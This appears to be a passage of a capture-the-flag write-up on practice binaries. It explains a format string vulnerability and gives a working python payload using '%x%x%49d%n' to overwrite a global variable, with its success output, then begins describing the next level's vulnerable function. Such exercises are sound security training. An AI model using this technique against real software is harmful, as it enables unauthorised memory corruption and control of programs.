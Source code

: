 The key point of interest for exploitation is the fgets call.
fgets reads up to 512 bytes into the buffer at [ebp-0x208].

```sh
# Address to Overwrite:
0x080496e4
'\xe4\x96\x04\x08'

%x%x
# Skips over the next two stack values. This aligns the stack so that when `%n` is encountered, it writes to the correct address.
%49d
# Ensures that 49 characters are printed by this point. The exact number of characters printed affects what value gets written by %n.
%n:
# Writes the number of characters printed so far (49 in this case) to the address specified at the beginning (0x080496e4).
```

By using a format string vulnerability, you are able to write an arbitrary value to an arbitrary address. In this specific case:

The value 49 is written to the address 0x080496e4.

Final:

```sh
python -c "print '\xe4\x96\x04\x08' + '%x%x%49d' + '%n' " | ./bin

> you have modified the target :)
```

-   ## EX08

### Objective

This level is completed when you see the “you have modified the target” message.

### Binary functionality

Same as last, after running seems to wait for some user input and when it's povided shows message: `target is 00000000 :(`

### Process and solution

Seems pretty similar to the last exerciese as it has main function that simply calls vuln funciton.

Vuln function has some differences
![img](https://i.imgur.com/TNHfbAh.png)

The vuln function reads up to 512 bytes of user input into a buffer on the stack and then prints the buffer's contents using a `printbuffer` function. It checks if a global variable equals `0x1025544`, printing a specific message if true; otherwise, it prints a different message along with the variable's value. The function is vulnerable to buffer overflow and format string attacks, which can be exploited to alter the program's execution flow or memory.
